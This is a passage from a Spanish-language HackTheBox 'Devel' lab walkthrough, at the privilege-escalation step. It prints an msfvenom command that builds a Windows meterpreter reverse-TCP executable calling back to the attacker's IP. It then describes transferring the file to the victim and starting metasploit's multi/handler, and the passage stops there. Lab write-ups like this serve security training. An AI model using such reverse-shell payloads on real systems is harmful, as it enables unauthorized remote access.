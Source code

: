 ![](/assets/images/HTB/Devel-HackTheBox/privilegios.webp)

En esta ocasión voy a intentar migrarme a una sesión de metasploit para poder usar una utilidad muy parecida a winpeas pero a través de un módulo de metasploit, por lo que he de crear un archivo malicioso con msfvenom de la siguiente forma.

```bash
# Crear archivo .exe malicioso.
------------------------------
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f exe > rev.exe
```

Una vez creado abro un servidor python3 en el directorio donde tengo el archivo .exe malicioso y desde la sesion de powershell de Windows a la que hemos ganado acceso anteriormente ejecuto el siguiente comando para pasar el archivo.

![](/assets/images/HTB/Devel-HackTheBox/rev2.webp)

Una vez tengo el archivo en la máquina vícitma me abro metasploit y usando el módulo multi/handler configuro los parámetros.

